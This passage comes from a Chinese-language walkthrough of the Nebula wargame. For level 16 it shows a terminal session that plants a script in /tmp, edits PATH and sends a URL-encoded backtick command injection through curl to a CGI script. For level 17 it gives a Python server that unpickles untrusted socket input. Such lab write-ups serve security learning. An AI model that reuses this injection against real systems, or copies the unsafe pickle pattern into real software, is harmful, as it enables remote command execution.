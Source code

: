 然后 `<xxx>` 里的内容不应该出现空格，因为空格后面的内容都会被过滤，然后所以字母都必须是大写的

```
level16@nebula:/tmp$ vim GET
#!/bin/sh
getflag > /tmp/flag
:wq
level16@nebula:/tmp$ export PATH=/tmp:$PATH
level16@nebula:/tmp$ GET
level16@nebula:/tmp$ cat /tmp/flag 
getflag is executing on a non-flag account, this doesn't count
level16@nebula:/tmp$ rm /tmp/flag 
------------------
$    curl nebula:1616/index.cgi?username=%60%2f%2a%2fget%60                         
------------------
level16@nebula:/tmp$ cat /tmp/flag 
You have successfully executed getflag on a target account
```

# Level17
( ′ロ` )终于遇到我会的语言了。。。python代码审计
```
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

